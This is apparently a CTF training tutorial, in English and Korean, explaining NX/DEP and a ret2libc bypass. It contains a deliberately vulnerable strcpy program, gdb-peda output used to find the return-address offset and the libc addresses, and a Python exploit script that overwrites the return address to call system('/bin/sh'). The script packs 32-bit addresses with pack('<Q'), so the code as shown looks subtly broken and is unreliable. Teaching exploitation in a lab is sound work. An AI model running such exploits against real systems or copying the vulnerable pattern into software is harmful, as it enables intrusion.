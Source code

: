 # NX
Also known as Data Execution Prevention (DEP), this protection marks writable regions of memory as non-executable. This prevents the processor from executing in these marked regions of memory.

If we look at the memory map of a program compiled with NX protection, the stack and heap are typically marked non-executable.

In the following diagrams, we will be introducing a new indicator colour for the memory regions to denote 'writable and non-executable' mapped regions. Firstly, the stack before the read occurs looks like this:

When we perform the same attack, the buffer is overrun and the saved pointers are overwritten once again.

After the function returns, the program will set the instruction pointer to 0xbfff0000 and attempt to execute the instructions at that address. However, since the region of memory mapped at that address has no execution permissions, the program will crash.

Thus, the attacker's exploit is thwarted.

# Vulnerable Program
```
#include <stdio.h>
#include <string.h>

void exploitme(char* input)
{
  char buf[32];
  strcpy(buf, input);
  puts(buf);
}

int main(int argc, char* argv[])
{
  if ( argc < 2 ) return -1;

  exploitme(argv[1]);

  return 0;
}
```

# Bypassing NX with Ret2Libc


![Fig 1. stack][classic1]

## 버퍼의 크기
우선 버퍼의 크기가 소스코드상에서는 32인데, 실제 Overflow 되어서 EIP가 덮어지는 정확한 지점을 알아야 한다.
```
$ gdb -q ./nxstack
Reading symbols from ./nxstack...(no debugging symbols found)...done.
```
gdb-peda에 patter_create 와 patter_offset 기능을 활용하자.
```
gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
```
길이 50의 임의의 패턴을 생성하였다. 이를 복사하여 run 하자.
```
gdb-peda$ r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
Starting program: /home/skcctf/ctf_training/day3/nx/nxstack 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41412941 ('A)AA')
ECX: 0xfbad0084
EDX: 0xb7fcc870 --> 0x0
ESI: 0x2
EDI: 0xb7fcb000 --> 0x1b3db0
EBP: 0x0
ESP: 0xbffff610 ("AA0AAFAAbA")
EIP: 0x61414145 ('EAAa')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x61414145
[------------------------------------stack-------------------------------------]
0000| 0xbffff610 ("AA0AAFAAbA")
0004| 0xbffff614 ("AFAAbA")
0008| 0xbffff618 --> 0xbf004162
0012| 0xbffff61c --> 0x0
0016| 0xbffff620 --> 0x0
0020| 0xbffff624 --> 0x0
0024| 0xbffff628 --> 0xb7fcb000 --> 0x1b3db0
0028| 0xbffff62c --> 0xb7fffc0c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x61414145 in ?? ()
```
현재 SIGSEGV가 발생하여 프로그램이 강제로 종료되었으며 `0x61414145 in ?? ()`라는 구문이 출력되어 있다. 
이는 EIP 레지스터에 해당 값이 들어있기 때문인데, 그 값의 위치에 접근하려다 실패했기 때문이다.
```
gdb-peda$ info register eip
eip            0x61414145	0x61414145
```
그럼 peda가 생성했던 패턴 중 `0x61414145`은 어느 지점에 있었는지를 확인하면 return address 가 위치하는 곳을 알 수 있다.
```
gdb-peda$ pattern_offset 0x61414145
1631666501 found at offset: 36
```
해당 지점은 36이다.

즉, Buffer 가 32로 선언되어있고, 그 뒤에 EBX가 push되어 36칸을 차지하며 그 뒤로는 Return Address 가 위치하는데, 이 부분을 다른 함수의 주소로 덮어씌우면 Return 시에 그 함수를 수행하게 된다.

## return address 위치 찾기
## system() 의 주소
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e51b40 <__libc_system>

gdb-peda$ x/s 0xb7e51b40
0xb7e51b40 <__libc_system>:	"\203\354\f\213D$\020\350\061h\016"
```
## exit() 주소
system() 함수가 return되고 난 후 jump할 위치를 지정해야 한다.
사실 system("/bin/sh")가 호출되는 순간 이미 exploit에 성공했으므로 이 부분은 적당히 Fake 값으로 대충 "AAAA" 로 채워넣어도 무방하다.
하지만 차이점이 있다면 쉘 획득 후 작업을 종료하고 나갈 때 Error가 발생한다.
이 부분까지 깔끔하게 처리하고 싶다면 exit()의 주소를 찾은 후 이것을 호출하게 하면 마치 정상적으로 종료되는 것처럼 보이게 할 수 있다.
```
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e457f0 <__GI_exit>

gdb-peda$ x/s 0xb7e457f0
0xb7e457f0 <__GI_exit>:	"\350\204+\017"
```
이렇게 얻은 exit()의 주소는 `0xb7e457f0`이다.

## /bin/sh
system()의 인자로 전달할 브레이크 포인트 걸어놓고 실행한 상태에서
```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f748c8 ("/bin/sh")
```

## Exploit code
```
from struct import *

system_addr = 0xb7e51b40 
binsh_addr  = 0xb7f748c8
exit_addr   = 0xb7e457f0

payload = "A" * 32                           # buf

payload += "A" * 4                           # ebx

payload += pack("<Q", system_addr)           # ret addr : system()

#payload += "B" * 4                          # return of system(), fake value (don't care error msg)
payload += pack("<Q", exit_addr)             # to avoid closing error, use exit() func addr

payload += pack("<Q", binsh_addr)            # /bin/sh addr

f = open("in.txt", "w")
f.write(payload)
```



[classic1]: ./nxstack_view.png
